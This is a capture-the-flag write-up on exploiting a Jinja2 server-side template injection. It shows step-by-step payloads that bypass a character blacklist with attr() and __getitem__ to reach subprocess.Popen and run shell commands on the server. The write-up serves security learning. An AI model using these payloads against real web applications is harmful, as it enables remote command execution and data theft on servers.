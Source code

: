 # Challenge link
URL:      [http://45.122.249.68:20029/](http://45.122.249.68:20029/) (maybe the server was shut down)

# Challenge description
I forgot it :>

# Challenge source file
Source code on the page:
- I am rebuilding it 
# Difficulty
Normal

# Author
I forgot it, too :v

# Approach
- The first thing that happened when I connected to the site was being redirected to /wannaw1n?c=hacker :
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/27d24f9e-51d8-493e-aec3-a4ae99532494)

- I tried to change *hacker* to something like *lmao* :
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/c44aa626-dca0-4312-b4c5-67575f824879)
  

- In this situation, I was thinking about SSTI (Jinja2 template for details), so I tried *{{ 7\*7 }}* :
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/34b348f2-5cdf-4437-b099-3048327a4fdc)

- The result confirmed that it was an SSTI attack and the template they used is Jinja2. Now let's construct the payload.

# Problem-solving
  ## Payload constructing
  - I found some interesting Jinja2 template payloads in [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)
  - First, I tried to inject a random payload to see the behavior of the application:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/29595e75-1eb4-436e-881a-76b2d76faf0a)

  - It has a blacklist, so I should find out what was banned here:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/b7936439-0f40-4aee-9ecf-75c0d088cf30)
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/10e6da94-58d4-4691-adc0-8cf76c3f2e71)
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/e4bb3a93-3d51-4ff6-bcef-055b417f959f)
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/475d3570-bb2f-422d-b824-8050bbe771de)

  - And many more banned words/characters. For no time consumption, I built my payload. Because '.' was banned, I used the attr() function instead:
  - I chose this payload at the link above :
    ```
    {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()}}
    ```

    ```
    {{ ''|attr('__class__')|attr('__mro__') }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/1c5ac358-020f-4a58-b68e-a6e65eca3a56)

  - Because '[' and ']' was blocked, I decided to use *__getitem__* method to get the item at a specific index:

    ```
    {{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')() }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/a91a6711-7b73-429d-b606-db4fca49c8c8)

  - With some Python lines, I found that *<class 'subprocess.Popen'>* was indexed as 279:

    ```
    {{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(279) }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d30a043c-499a-423e-a5bc-00fccf8e88f5)

  - Popen let us execute os code.

    ```
    {{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(279)('ls', shell=True, stdout=-1)|attr('communicate')() }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/3d8ae101-0bb8-4e2e-8000-7e5f038b79f6)

  - Cat flag:
    
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/862aadb1-9d29-4757-97a0-e892c603afc8)

  - It was blocked. I thought that they also blocked *flag*, so I tried *cat \** :
    
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/338b92ba-a6e1-472e-8fc8-b0b71728ae57)

  - Flag: W1{U_are_master_in_SSTI}
